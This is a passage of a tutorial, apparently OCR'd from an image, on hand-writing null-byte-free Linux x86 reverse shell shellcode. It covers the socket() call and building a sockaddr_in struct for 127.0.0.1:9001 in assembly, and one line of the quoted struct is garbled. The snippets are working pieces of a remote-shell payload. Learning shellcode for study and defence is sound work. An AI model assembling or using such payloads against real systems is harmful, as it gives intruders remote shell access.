 The first system call we want to implement into our reverse shell script is the socket(). This was used within our TCP bind shell, and for that reason i won’t be explaining it as much as I did there. The implementation was the same and approach taken reflected that of my second bind shell attempt, preventing any NULL bytes from being in the final payload:

```
; syscall socket 359 (0x167)
; int socket(int domain, int type, int protocol); - returns fd
mov ax, 0x167       ; sys call number
mov bl, 0x2         ; AF_INET
mov cl, 0x1         ; SOCK_STREAM
; EDX should already be 0 from initial clear up top
    
int 0x80            ; exec syscall
mov edi, eax        ; save the fd
```

The second system call required is new to us, and required a bit of work to get up and running correctly. This call is the connect() system call. Looking at our table above, we can see that we need the following:
* our file descriptor that was returned from socket()
* a pointer to a sockaddr struct
* the size of this sockaddr struct in memory

As previously researched, the sockaddr struct contains the following data (taken from https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf):

```
struct sockaddr_in {
    short sin_family; // e.g. AF_INET
    ‏)3490(unsigned short sin_port; // e.g. htons
    struct in_addr sin_addr; // see struct in_addr, below 
    char sin_zero[8]; // zero     this if you want to
};
```

So now we have our struct definition, we want to include the following information:
* AF_INET (2)
* The port number (I used 9001 - 0x2329)
* The address (127.0.0.1 as we are listening locally)
* 0

Before walking through our implementation, we need to address the fact that the target IP address (in this case) will contain two separate 0’s, which will result in NULL bytes existing in our payload. This can be addressed in various ways, for example, h0mbre_ pushed a value into the target address and subtracted another value from it - resulting in the target value without hardcoding any 0 values. For my approach, I zeroed the register and then moved single bytes into the target areas of the register using the ‘mov byte’ instruction. I found this was also used in a NULL byte free reverse shell online at https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html. The following snippet shows my implementation and how I created my data struct, along with my target IP address (127.0.0.1) without any NULL bytes existing.

```
; create our struct
xor ecx, ecx
push ecx
mov byte [esp], 0x7f      ; now esp is: 0x0000007f
mov byte [esp+3],0x01     ; now esp is 0x0100007f
push ecx
push word 0x2923          ; port 9001
push word 0x2             ; AF_INET
mov ecx, esp              ; set the 2nd param to equal a pointer to our struct
```
